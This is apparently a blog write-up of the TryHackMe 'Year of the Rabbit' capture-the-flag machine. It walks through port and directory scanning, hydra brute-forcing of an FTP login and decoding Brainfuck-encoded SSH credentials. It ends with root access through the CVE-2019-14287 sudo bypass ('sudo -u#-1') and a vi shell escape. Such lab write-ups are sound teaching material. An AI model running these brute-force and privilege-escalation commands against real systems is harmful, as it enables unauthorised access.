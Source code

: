 ```yaml
---
date: 2020-05-22 06:14:32
layout: post
title: "YearoftheRabbit"
subtitle: A machine full of rabbit holes.
description: Medium Machine from Tryhackme
image: /writeup/assets/img/yearoftherabbit/year.png
optimized_image:
category: tryhackme
tags: medium tryhackme
author: cirius
paginate: false
---
```

<a href="https://tryhackme.com/room/yearoftherabbit">Link</a> to the machine on Tryhackme.

 Staring with nmap scan to look for open ports,
 ```bash
$ nmap -T4 -p- -A 10.10.45.92
 Starting Nmap 7.70 ( https://nmap.org ) at 2020-04-16 00:38 IST
Nmap scan report for 10.10.45.92
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Linux 3.13 (92%), Linux 3.2 - 3.16 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   187.89 ms 10.8.0.1
2   212.33 ms 10.10.45.92

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.06 seconds
```

There are 3 ports open 21,22,80.
Since ftp port was open tried to login anonymously,but as shown by nmap scan anonymous login was not allowed.

Moving on to the second interseting port , i.e 80.

The homepage of website hosted at port 80 contains default apache2 page.
Tried to search for directories and pages available on the website using ffuf.
```bash
ffuf -w wordlist -u http://10.10.45.92/FUZZ -e .php,.html,.txt,.zip
```
![placeholder](/writeup/assets/img/yearoftherabbit/ffuf.png "ffuf")

This shows that there is a assets directory.
Visiting the directory, I found a style.css file and a video file.
The style.css file pointed me towards **/sup3r_s3cr3t_fl4g.php**
![placeholder](/writeup/assets/img/yearoftherabbit/style.css "style")

Visited http://10.10.45.92/sup3r_s3cr3t_fl4g.php. A popup told me to switch off the javascript. If I do not switch off js then I was redirected to a youtube video.
After switching off the javascript the video that was inside assets is played on the page.

Listening the video there is voice of man's *burp*.This voice is not present in original video at youtube.

Since the man was burping. So I thought to open Burpsuite and see the requests.

Looking at the requests made by browser when visiting /sup3r_s3cr3t_fl4g.php, I found one more page 
![placeholder](/writeup/assets/img/yearoftherabbit/burp.png "burp")

As visible in image the browser is requesting this address,
*http://10.10.45.92/intermediary.php?hidden_directory=/WExYY2Cv-qU*
Visiting the above URL , I was redirected to /sup3r_s3cr3t_fl4g.php.

I removed the hidden_directory parameter from the URL

*http://10.10.45.92/intermediary.php**

Accessing the above URL, this also redirected me.

As the URL contained the hidden_directory=/WExYY2Cv-qU. So I accessed the directory directly.
```URL
http://10.10.45.92/WExYY2Cv-qU
```
This directory contained an Image.
Downloading the image and using strings command on the image to extract any string in the image.
```bash
strings Hot_Babe.png
```
![placeholder](/writeup/assets/img/yearoftherabbit/ftp.png "ftp")

This gave a ftp username as ***ftpuser*** and some passwords.

Now to get the correct password, I used hydra to perform a wordlist attack.
```bash
hydra -l ftpuser -P passwords 10.10.45.92 ftp -V
```
![placeholder](/writeup/assets/img/yearoftherabbit/hydra.png "hydra")

This gave me the correct passsword for the ftpuser.

Logged in inside ftp using the above credentials.
```bash
ftp 10.10.45.92
```
Found a file named eli's_creds.txt inside the ftp server.

Downloaded the file and opening it presented me with a obfuscated text.
```text
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

This is brainfuck language.
Used <a href="https://www.dcode.fr/brainfuck-language">decode.fr></a> website to execute this code written in Brainfuck language.
![placeholder](/writeup/assets/img/yearoftherabbit/brainfuck.png "brainfuck")
This gave the SSH credentials for user eli.

Logging In through SSH , a message was displayed 
![placeholder](/writeup/assets/img/yearoftherabbit/ssh.png "ssh")

This message said something about s3cr3t hiding place.
I though maybe there is some directory named s3cr3t.So , executed this command to look for the directory named s3cr3t.
```bash
find / -name s3cr3t -type d 2>/dev/null
```
This gave a location where this directory was located, */usr/games/s3cr3t*
![placeholder](/writeup/assets/img/yearoftherabbit/secret.png "s3cr3t")

Inside the s3cr3t directory, there was a file named **.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!**

Inside the file found the password for gwendoline user.

Used the password to switch user.

Got the user flag.

Now to escalate privileges to root. I started with sudo -l which showed a interseting information.
![placeholder](/writeup/assets/img/yearoftherabbit/sudo.png "sudo")

The sudoers file had an entry for gwendline user which said that gwendoline user can run vi command to read user.txt as every other user except root.

But to escalate privileges I needed to run the vi command as root.

Looking for the version of sudo, I found it to be 1.8.10

Looking for any vulnerability in sudo. I found a vulnerablity related to *!root* statement of sudoers file.(***CVE-2019-14287***)

According to the vulnerability if user id "-1" or "4294967295" is used while executing the command that is listed to be not run as root in sudoers file. Then, it would run as root.

In simple language, if I run the command with user id -1 or 4294967295. Then I can run the vi as root.
```bash
sudo -u \#$((ffffffff)) /usr/bin/vi /home/gwendoline/user.txt
```

ffffffff is hexadecimal of 4294967295
This would also work
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

This opened the vi with user.txt as root.

Time for GTFOBins

Used the command displayed on GTFOBins, to get the root shell.

```bash
:set shell=/bin/bash
:shell
```

Now I got the root shell.

Got the root flag.
  

